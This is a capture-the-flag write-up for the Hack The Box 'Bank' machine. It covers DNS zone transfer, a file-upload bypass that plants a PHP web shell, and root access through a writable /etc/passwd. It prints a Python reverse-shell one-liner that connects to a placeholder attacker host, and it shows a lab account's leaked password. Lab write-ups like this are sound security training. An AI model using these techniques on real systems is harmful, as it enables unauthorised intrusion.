









## infocard



Bank is an easy box in which we perform domain enumeration to find a hosted website, bypass file upload restrictions to gain shell access, and escalate privileges by modifying a file.

## Enumeration

We start with an Nmap scan:

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-04 01:10 EST
Nmap scan report for 10.10.10.29
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```
The Nmap scan reveals SSH, DNS, and HTTP services. Exploring the webpage shows the default Apache HTTP page. Running Gobuster yields no interesting results.

### DNS Enumeration

Port 53 is open. Attempting a zone transfer using `bank.htb` as a domain reveals several subdomains:



We discover `chris.bank.htb`, `bank.htb`, `ns.bank.htb`, and `www.bank.htb`. Adding these to `/etc/hosts` allows further exploration. While most subdomains redirect to the default Apache page, `bank.htb` leads to a login page.



After testing default credentials and SQL injection, no vulnerabilities are found. Using `ffuf` reveals some directories:



The `balance-transfer` directory contains `.acc` files. One file, smaller than the rest, reveals plaintext credentials for Chris:

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

## Gaining shell

Using Chris's credentials, we log in and find a ticket system (`support.php`) that allows file uploads. Uploading a PHP shell fails due to MIME type restrictions. Crafting a file with a PNG MIME type and PHP content uploads successfully but is not executed due to the `.png` extension.



Examining the source code reveals:

`<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->`

Creating a payload with the `.htb` extension and uploading it works. Accessing `bank.htb/uploads/test.htb` provides a web shell as `www-data`:
 


A reverse shell is established using Python:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker-ip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

The user flag is found in Chris's home directory:



## Privilege Escalation

During enumeration, it is discovered that `/etc/passwd` is writable:



Adding a new user with root privileges allows root access:



## Conclusion

The Bank machine emphasizes the significance of secure file upload handling and proper input validation. By exploiting a file upload vulnerability and misconfigured file extension handling, we gained a foothold on the system. Privilege escalation was achieved through writable sensitive files, demonstrating the importance of enforcing least privilege and monitoring for misconfigurations to enhance security.